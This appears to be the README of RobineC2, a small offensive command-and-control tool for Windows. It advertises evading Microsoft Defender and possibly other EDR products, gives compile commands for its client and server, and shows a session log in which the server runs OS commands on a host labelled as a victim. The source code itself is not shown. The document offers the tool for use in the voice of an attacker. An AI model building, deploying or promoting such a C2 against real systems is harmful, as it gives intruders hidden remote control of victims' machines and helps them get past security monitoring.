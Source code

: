 # RobineC2

 +-+-+-+-+-+-+-+-+-+
 |R|O|B|I|N|E|-|C|2|
 +-+-+-+-+-+-+-+-+-+
                                                                                
                                                  
**Cheap and fast C2, nothing is encrypted, and sometimes going back to the basics yields some funny results.**
- Tested in a lab with Defender, and it works.
- It would probably bypass the other EDR, who knows, if you can test it tell me.
- Simple works fine sometimes.

**TODO:**
- Add more information from the compromised host and report back to the server.
- Encryption between client and server.
- Other stuff. 
  
**How to compile**

```
cl client.cpp /EHsc /link ws2_32.lib
cl server.cpp /EHsc /link ws2_32.lib
```

```
c:\batmanismad\server.exe
Waiting for client connection...
Enter OS command to send: dir
Command Output:
 Volume in drive C has no label.
 Volume Serial Number is 1337-1337

 Directory of C:\Users\batman\Desktop

10/19/2023  01:24 PM    <DIR>          .
10/19/2023  01:24 PM    <DIR>          ..
10/16/2023  08:19 AM         1,939,696 windowsupdate.cpl
09/29/2022  08:26 PM         2,774,440 Bginfo64.exe
08/27/2023  01:50 PM             1,965 Process Lover 2.lnk
10/18/2023  08:02 AM             7,680 SharpMoneyMaker.exe
               5 File(s)      4,832,325 bytes
               2 Dir(s)  100,727,209,984 bytes free

Enter OS command to send: hostname
Command Output:
WIN10-VICTIME-BATMAN
```
